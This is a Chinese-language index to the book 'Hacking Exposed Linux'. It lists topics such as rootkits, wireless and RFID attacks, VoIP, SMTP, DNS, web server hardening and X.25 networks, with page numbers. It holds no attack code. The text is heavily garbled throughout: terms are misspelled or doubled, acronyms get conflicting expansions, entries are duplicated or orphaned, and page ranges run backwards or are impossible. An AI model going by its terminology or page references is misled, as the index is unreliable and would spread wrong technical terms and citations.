- 跳线设置定义, 48–49

### K
- auth(9), 581–582
- 内内核入侵系统 `KIS`, 115
- 内核模式 rootkit, 114–116, 120
- 蓝牙设备的密钥生成, 289
- 密钥 CIS `内核入侵系统`, 115
- Kismet, 262–272, 273
- KlocWork, 519

### L
- LCAP `逻辑链路控制与适配协议`, 287
- 笔记本电脑
- 欺骗无线连接到, 277
- 使用事件响应密钥, 273–274
- 格阵, 38
- 电子证据的法律. 另见电子证据
- 三层连接
- 测试, 266
- WCCD2 漏洞，以及 227–278
- ldity, 74, 113
- LF `低频`标签, 304
- libtrace 库, 259–260
- libart 项目, 313
- 蓝牙协议栈的链路控制器, 286
- 链路管理协议 `LMP`, 287
- Linux. 另见 BSD; Linux
- 轮替固件管理功能, 372–328
- 避免可加载模块内核, 537
- 与 BSD 对, 570
- 为启用无线驱动程序, 224
- 破解黑客和驱动程序, 219–225
- 使用实现 RIF 系统, 311–312
- 伪装成 Windows, 95, 96
- 修改键盘背光光, 32–
- 监控内置的移动传感器, 542
- 代码的可靠性, 497
- 在内部替换应用程序, 549–550
- 安全与 MDB, 572–574
- BSD 中的系统计数代码，以及 277
- 使用 WIDS, 271–273
- 带有移动笔记本事件密钥, 275–276–278
- Linux 内核, 524–527
- 在内部应用 Hoare 逻辑, 515–517
- 避免可加载的, 537
- CryptoAPI, 524–525
- 增强型线栈, 525

### 索引
- 通过 /proc 加固系统, 540, 541
- LSM 功能, 524
- NetFilter, 525
- 串行文档和参考文献, 526–527
- POSIX 访问列表, 526
- Linux Rootkit `LRK`, 215
- Linux 安全模块 `LSM`, 524
- LiveCDs, 255–256
- 时态逻辑的存活属性, 286, 287
- LMP `链路管理协议`, 286
- 负载均衡, 423
- 本地访问, 42–85
- 文件权限和属性, 62–80
- 限制物理访问, 44–52, 53
- 保护数据完整性，部分访问, 80
- 易失数据保护, 83
- 本地数据包交换 `LPS`, 158
- RAID 上的标签, 307
- 检查, 542
- 集中收集, 445
- 事后分析, 564
- 在事后分析中搜索, 561
- 逻辑
- 锁定失败尝试, 536
- 密码/登录属性, 138–139
- 不变性, 588
- ORC `无线连接`, 259–262
- LPS `本地数据包交换`, 158
- LSM `Linux 安全模块`, 524
- ls 工具, 74
- 邮件服务, 430–468. 另见 SMTP
- 身份验证发送者或内容, 431–434
- 暴力破解攻击, 466–467
- 案例研究, 430
- 计算机病毒和恶意软件, 450–451
- 分布式过滤 SPAM, 443
- DNS 黑名单, 442
- 灰名单 `greylisting`, 442
- 处理用户枚举, 454–456
- SMT 初始阶段的 HELO 命令, 444–446
- MX 记录和邮件, 435–438
- 开放中继和策略, 451–453
- 钓鱼诈, 444–469
- 验证邮件, 460–463
- 未加密攻击, 266–268
- 使用 ARP 欺骗攻击执行, 414–415
- 无线, 253
- 移动可信模块 `MLTM`, 339
- 移动远程可信模块 `MTRM`, 339, 346
- 管理与运营中心 `MOCs`, 158
- 基于模型的锁定工具, 529
- 基于模的语言, 500
- ModSecurity
- 嵌入式应用程序防火墙, 105
- 防止错误处理被利用, 379
- 使用, 375–384
- 为 Web 服务器配置, 384
- 利用其中的漏洞, 57–58
- 防止权限提升, 58–59
- MoonHunter, 256
- 摩托罗拉调制调器, 152–153
- MRTMs `机器可读文档`, 302
- MRTG `多路径流量图`, 548
- MTRM `移动远程可信模块`, 339, 346
- MTAs `邮件传输代理`, 关于, 431–432
- 邮件路由中的功能, 436–438
- 权限的正确配置, 459
- 为中继提供安全, 457
- 加固, 440–441
- MTM `移动可信模块`, 339
- MUAs `邮件用户代理`, 431–432
- 多用途互联网邮件代理 `MIME`, 431
- 多路径流量图 `MRTG`, 548
- MX DNS 记录, 435–438
- Nagios, 548–549
- 名称服务, 470–492. 另见 BIND 绑定
- dns 之后, 471
- BIND 绑定, 481–492
- BIND 工具, 472
- 案例研究, 470
- DNS 和钓鱼, 475–476
- 动态 IP 地址和 DNS 查询, 474–478
- DNS 事务中的数据包交换, 473–478
- 缓存欺骗和攻击, 471–488
- 使用 IPv6 地址, 475
- DNS 欺骗和 DNS 劫持, 476–478
- 名称服务 `NS`, 480
- NAT `网络地址转换` 防止 VoIP DoS, 206
- 使用 VoIP 网络安全, 211–212
- NAU `网络用户地址`, 162, 163
- NAV `本地数据包交换`, 241–243
- NDWrapper, nBSD 关于, 570–571
- 审计, 582–583
- cndget(4), 583
- clockd(4), 583
- filesec(9), 582
- kauth9(command), 582
- 在线页面和文档, 588–589
- p_policy(3)命令, 582–588
- 安全顾问, 581–583
- 安全脚本, 572
- veriexec(command), 582
- netcat, 110, 112, 372
- Netohlferers, 525
- 网络地址转换. 见 NAT
- 网络数据包交换 `NAV`, 241–243
- 网络系统和分析, 99–104

### Hacking Exposed Linux: Linux 安全机密与解决方案

# 索引 603

- 创建安全的交换机, 101–102
- 漏洞，99–101
- 网络环境搭建，542–546
- 构建网络系统和基于主机防火墙，544
- 集中收集日志文件，545
- 收集统计数据，545–546
- 入站和出口过滤，542–544
- 执行时间同步，
- 通过 VPN 进行远程管理，546
- 监控安全邮件列表，545
- 网络接口服务，543

- 网络入侵检测系统 `NIDS`, 546–547
- 网络端口地址 `NPA`，162, 163
- 安全指南，
- 绕过攻击，204
- 加密 RTP/RTCP 媒体流，210
- 防止注入和操纵，211
- 防止注册劫持，202
- 防止 VoIP 拦截，203
- 使用身份验证保护媒体流，211
- 系统，188–196
- 网络时间协议 `NTP`, 545
- 网络用户地址 `NUA`，162, 163
- 网络用户标识 `NUI`，173

- 可见性，89–93
- 高可见性，92
- 漏洞，89–90
- 改进，50
- 低可见性，91
- 协议使用监控，92–93
- 网络。作为所有防火墙；网络架构；
- 访问与安全，9–10
- 架构漏洞，99–101
- 架构构建网络系统和基于主机防火墙，544
- 汇聚网络攻击和嗅探，
- 使用访问控制击败，121
- 确定 RF 传播边界，267
- 网络攻击，184, 186–189
- 利润，94–99
- 设置网络环境，542–546

- Next Secure `NSEC`, 492
- NIPSv4 安全增强，526
- NIDS `网络入侵检测系统`，546–547
- *NIX 系统
- BND 软件和，481
- 测试，176
- Nmap，371
- NoCaAuth 工具，271
- 节点设置，532–542
- 关于节点，532
- 自动化扫描技术，536
- 避免可加载内核模块功能，537
- 检查 IPv6 状态，538, 539
- 检查日志文件，542

- “拒绝所有，特定允许”，534–535
- 部署一次性密码，535
- 执行密码策略，537
- 加固系统 /proc，540, 541
- 合理启用守护进程，538–539
- 监控硬性绑定，542
- 密码安全，540–541
- 防止暴力破解，534
- 设置挂载和文件系统选项，539–540
- 登录失败后用户锁定，536
- 使用图形化服务，532
- 使用 sudo 执行管理任务，

# 攻防 Linux Linux：Linux 安全秘密与解决方案

## 索引

参考完整性度量 `RIM`, 346
反射型 XSS, 389–390
注册劫持, 201–202 另见 静态分析
C 语言的可靠性, 496–521 另见 静态分析测试工具, 517–520
案例 496

使用 Hoare 逻辑进行代码分析, 505–507
正确性与可靠性的概念, 497
形式化编码方法, 499–502
进一步参考, 523–521
半形式化编码方法, 498
静态分析, 502–517

生成代码的步骤, 498
可移动式介质
- 禁用从其启动, 46
- 使用 Linux CDss 窃取/更改数据, 44–46
- 使用磁盘锁锁, 50
重放攻击, 310–311
密码重置问题, 466

韧性
- 关于, 23, 25
- 创建, 24
- 保护缺失, 23–24
- 恢复和还原备份数据, 119–120

暴露的 IP 地址的逆向工程, 489–90
反向隧道技术, 109–110

RF `射频`, 225–238 另见 蓝牙设备;
- 天线与增益, 229–231
- 衰减, 228–229
- 筑堡, 232–237
- 防御漏洞利用, 237–238
- 防御, 225–226
- 确定网络的传播边界, 269
- 攻击, 225–226
- 信号干扰和劫持, 267–268
- 噪声和 DoS 攻击, 227–228
- 降低 RF 安全风险, 325–332
- 射电安全问题, 322–324
- 频谱分析, 238–246
- 波长和幅度, 226–227
- 频谱分析, 240–262

RFCOMM `射频通信`, 288
RF `射频识别`. 另见 RFID 读器
- 关于, 217, 318–319
- 案例研究, 296
- 克隆攻击, 308–309
- 组件, 209
- 针对反解决方案系统的 DoS, 306
- 磁脉标签破坏, 309
- 频率标准, 303–304
- 黑客工具箱, 311
- 历史, 297–298
- 身份识别自由或强制, 298–299
- 使用 Linux 实现 RFID 系统, 311–312
- 输入验证攻击, 307–308
- Linux RFID 技件, 316
- 位置攻击, 307
- Magellan Technology 产品, 315–316
- Omnikey, 316
- Open PCCD 项目, 313–315
- OpenBeacon, 316
- OpenMRID 项目, 313
- OpenICC 模拟器, 315
- 目的, 299–300
- 重放攻击, 310–311
- RFID Guardian, 316
- RFIDot, 316
- 信号干扰, 305–306
- 使用其窃取/窃听攻击, 310
- 技术标准, 304–305
- 攻击类型, 305–311
- 用途, 303

RFID 读器
- 构建, 311
- 连接到 Linux 系统, 311–312
- 嵌入式 Linux, 312
- OpenPIC 智能卡, 318
- riddump, 313
- RFID 启用密码, 301–302
- RFID 启用票, 303
- RFIDot, 316
- RFID 脉冲设备, 309

RIA `富网络应用`, 395
RIM `参考完整性度量`, 364
- 根源, 113–121
基于角色的访问控制 `RBAC`, 70, 72–73
测量信任根 `RTM`, 335, 350
- 根源, 113–121
- 防御, 120–121
- 定义, 113, 547
- 获益, 116
- 内核-mle, 114
- 缓解所需的工具, 110
- 用户模式, 113–114
信任根
- 架构, 338
- RRDTool, 548
RSA 密钥, 336–337
RSN `健壮安全网络`, 264
RSPA, 94
RSS `Riley 简单身份认证`, 304
RTP `RTP 控制协议`, 207–210, 211
RTM `测量信任根`, 335, 350
RTP `实时传输协议`, 207–208–211
RTR `报告信任根`, 335, 350
RTTS `存储信任根`, 335, 336
ao(b) 命令用于 RFID, 577
SAFER 算法, 289
代理, 134, 135
沙箱环境, 73
SBC `会话边界控制器`, 190
扫描
- 自动扫描, 336
- 端口, 118–119, 266
- Unix banner, 157
- 范围, 27
指纹识别, 96–99
脚本-跨站, 389
安全性, 272
SDC `系统开发生命周期`, 392–393
SDP `服务发现协议`, 287
SDP `章节描述协议`, 195
sdpt 命令, 292
安全启动, 356
Secure RTP `SRTP`, 207–208, 213
Secure RTP `SRTP`, 207–210, 213
安全级别, 572
允许从特定地址接入, 217
BSD 相关, 383
案例, 4–5
通道, 向量, 以及约束, 7–8
cookie, 418–419
定义, 6–7
在 IDS 中, 578
缓解被修改系统的攻击, 353
降低 EMF 风险, 325–326
通过隐蔽实现安全性, 94–95
订阅邮件列表, 405
测试密码, 540–541
对 VoIP 的威胁, 183–185
BSD 安全告告, 587–588
训练邮件欺骗, 409
伪造 SSL 证书, 419–420
雇主需求, 320
Web 应用池化, 411
应用攻击, 355
包括无线策略, 251–252
检查计算机进程, 351
缓解被修改系统的攻击, 353
防止应用攻击, 354–355
防止闪存攻击, 346–347
防止被动分析和情报, 范围, 370
VoIP, 188–189, 196–207, 208
安全性测试, 139–142
处理 X.25 错误代码, 141–142
ISDN, 140
PSDN, 140–141
PSDN 测试工具, 150–151
PSTN, 129
工具, 142–151
半形式化编码方法, 498
发件人框架 `SPF` 协议, 460–461
服务器设计, 43
Web 指纹识别, 371–373
嵌入域证明, 538–539
Linux 后端身份认证, 270–271
Linux 后端/中间件/数据库, 312
主从, 485
防止本地密码泄露, 81–82
使用 Strace 限制调用, 57
通过重置系统更改, 66–67
错误页面, 96–97
测试开放中继站, 45
关闭页面, 379
使用多重映射, 463–464
虚拟化与保护, 82–83
服务端包含, 385
SDP `服务发现协议`, 287
服务选择网关, 271
使用 rc.conf 文件配置安全性, 574
黑客去根冲突, 221
移除不必要的攻击和端口, 371
重命名, 95, 976
VoIP 通用网络设备, 190, 176
会话边界控制器 `SBCs`, 200
SDP `会话描述协议`, 195
会话建立协议. 另见 SIP
setuid 命令, 77–78
自定义 UID/SUID/GID 位, 67
SHA-1, 335
阴影区, 238
影子账户, 89
Shu Lua 路由器, 152
Shokial, 146–147
侧信道攻击. 另见 Van Eck Frankel
关于, 323
功耗攻击, 326–327
计时攻击, 328
视觉攻击, 328–329
信号干扰,
RF 干扰和劫持, 267–268
RFID DoS, 305–306
信令攻击
关于 VoIP, 185
信号的折射和吸收, 228
基于信令的服务交付, 205–207
VoIP 信令协议, 198
VoIP 测试工具, 198–201
信噪比 `SNR`, 229
基于签名的检测, 108
使用 OpenPGP 签名邮件, 458
简单邮件传输协议 `SMTP`
简单网络管理协议 `SNMP`, 548
简单对象协议 `SOAP`, 397
SIP `会话建立协议`, 193–195
针对 VoIP 的信令拦截, 202–203
信令测试, 198–210
发件人框架 `SPF` 协议, 460–461
射电影响, 237
SPIT `垃圾邮件电话`, 187
交换机节点, 517
无线电射频, 525
SPAM `垃圾邮件`, 496–496
SMTP `简单邮件传输协议`, 441
SOAP `简单对象协议`, 397
无线电射频, 524
444
垃圾邮件, 439, 440
无线电射频, 524
444
过滤, 440–442
DNS 黑洞列表, 442
灰名单机制, 442–443

## 黑客攻防：Linux 安全秘密与解决方案

- 概述，395
- 保护隐藏数据以防止，394
- 验证数据以防止，393–394
- 保护 Web 服务器免攻击，399–401
- 活跃 Web 枚举，370–375
- AJ 攻击，401–404
- 针对网络基础设施的攻击，422–427
- 案例研究，366
- 检查开发生命周期以防止跨站脚本，389–392, 292–393
- 数据库安全以威慑，395
- 使用客户端输入进行威慑，394
- 枚举和管理 Web 服务，396–399
- 利用访问控制中的漏洞，375
- 攻破配置错误的 Web 服务器，380–385
- HTTP 响应签名，392
- 足够数据攻击和，385–395
- 中间人攻击，413–422
- 被动分析和直观脚本化，367–370
- 保护隐藏数据以防止，394
- 内容相关的漏洞，379–380
- 信任操纵和，406–413
- 遍历信息的方法，367–375
- Web 2.0 攻击，406
- Web 馈送攻击，406
- XML 注入攻击和，369
- Web 应用程序
- 限制账户会话，475
- 防止跨站请求伪造，412–413
- 伪装，409–411
- Web 缓存选择，426
- Web 馈送，403–406
- 网络基础设施攻击，422,
- 缺陷组件，422–423
- HTTP 请求签名，392, 424–426
- 向网页中注入 iframe 标签，390–391
- 防止基础设施检测，423–424
- Web 服务器
- 从 IP 地址管理，383
- 禁用 CGI 执行，383
- 配置安全，354
- 去中心化配置用于，384
- 启用/禁用服务端包含，383
- 枚举和管理，396–399
- 利用糟糕的错误处理，376–378
- 寻找 WSDL 文件，396
- 攻破配置错误的，380–382
- 限制超时，385
- 最小化从……处的信息泄露，382–385
- 模块配置用于，384
- 恰当的错误处理，378–379
- 保护……的安全，399–401
- 公共/用户目录列表显示，382, 384
- 在生产环境中移除默认安装，382
- 针对的安全问题，400
- 锁定符号链接，383
- 收紧权限，384
- 升级现实，383
- 使用 ModSecurity，配合 375
- 使用弱加密套件，420–421
- Web 馈送的白名单输入验证，406
- Web 服务定义文件.WSDL
- WebDav，385
- WEP `无线等效隐私`
- 关于，263
- 用于……破解工具，263–264
- 802.11 技术标准，196
- WEP 客户端通信下弹漏洞，277
- WEP 客户端通信下弹 `WCCCD` 漏洞，277
- WEP/WPA-PSK 破解工具，253
- 白名单输入验证，406
- WHOS 协议和 ID 攻击，276–478
- WIDS 无线入侵检测系统），271–273
- WID，273
- WEP 保护访问.WEP
- 窗口，271
- 无线访问攻击，269–270
- 无线审计 LiveCDS，255–256
- 无线客户端
- 审计，275–278
- 防御针对……攻击，278
- 无线指纹识别，254
- 无线帧注入器，253
- 无线模糊测试器，254
- 无线无线基础设施，261–268
- 破解加密，263–266
- 提供安全的无线基础设施设备，269–274
- 使用……确定网络漏洞，261–262
- 识别使用的数据和协议，262–263
- 连接测试，266
- RF 干扰和阻塞，266–268
- RF 保护边界，267
- RF 频谱分析，262
- 无线中间人攻击，253
- 无线网络接口，ser. WNIC
- 无线网络文件，279. 序 802.11 技术；
- 无线基础设施攻击
- 审计无线策略，251–252
- 构建自定义无线访问点，269–270
- 案例研究，218–219
- 将 Linux 配置为后端认证服务器，270–271
- 防御无线客户端攻击，278
- 防御审计/攻击，平台，278
- 提供安全的无线基础设施，269–274
- 开发无线检测系统，271–273
- 利用 802.11 标准，240
- 攻击细节，219–225

- 实施强制性门户，275
- 通过……基础设施，367–368
- Linux 增强堆栈，271
- 频率，238
- RF 频谱分析，262
- 针对漏洞，269–274
- 无线帧，252
- 嗅探器，253
- 帧分析，233
- 无线局域网，220
- 选择，219
- 连接天线，235
- 使用外部改造，237
- 无线的，277
- 全球区域，164–165

- X.28 通过返费拨号，174
- 通过……接入 SDN 网络，173–274
- 通过反向更改，174

- X.28 PAD
- 回应代码，159
- 连接到 NUI，174
- 遭遇私，174–175

- X.25 需求，157–176
- 关于，130–131
- 从 Cisco 系统访问，175
- 通过……接入 SDN 网络，173–274
- 通过 OpenVPN 访问，175
- Internet 到 X.25 网关，175
- 用于 PSTN 或 ISDN 的专用 PAD，198
- 嗅探器，198
- PSDN 错误代码，141–142
- 测试 *NIX 系统，176
- 用于 PSDN 的工具，150–151
- 全球 X.25，164–165

- 击电压，309
- 区域
- 从外部允许非递归区域，485–488
- 缓存投毒和，478
- 保护发布的区域免受 view 命令攻击，490
- 安全传输之间，484–485
- 全球 X.25，164–165

- Yagi-Uda 天线设计，229–231

- ZRTP `Zimmermann's RTP`，207–208
